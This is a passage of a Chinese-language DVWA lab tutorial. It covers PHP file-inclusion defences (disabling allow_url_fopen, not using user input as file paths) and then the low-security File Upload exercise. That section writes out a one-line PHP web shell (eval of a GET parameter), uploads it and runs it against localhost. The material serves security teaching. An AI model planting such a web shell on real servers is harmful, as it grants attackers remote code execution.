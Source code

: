 
---

[更多用法](https://github.com/qazbnm456/awesome-security-trivia/blob/master/Tricky-ways-to-exploit-PHP-Local-File-Inclusion.md)
[PHP stream](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal)

---


防護手法:

- 透過修改 php.ini 的設定 「_allow\_url\_fopen_」，這個值可以決定 PHP 是否可以載入外部的 PHP Script ，我們可以設定 allow\_url\_fopen = false ，來防止相關的攻擊。
- 不要讓使用者的輸入當作檔案讀取的路徑

---


# File Upload
 （文件上傳）

---

## Security : Low

---

可以上傳東西
![](https://i.imgur.com/kOyLwbn.jpg)

---

這裡有一句話木馬 用 txt 來編輯
檔名叫 hack.php
```
<?php
eval($_GET[CMD]);
?>
```
![](https://i.imgur.com/47kHf1U.jpg)

---

上傳完還告訴你位置
![](https://i.imgur.com/ATRtUZk.jpg)


---

查看 php 的 所有相關訊息
http://localhost/dvwa/hackable/uploads/hack.php?CMD=phpinfo();
![](https://i.imgur.com/cAX340K.jpg)

---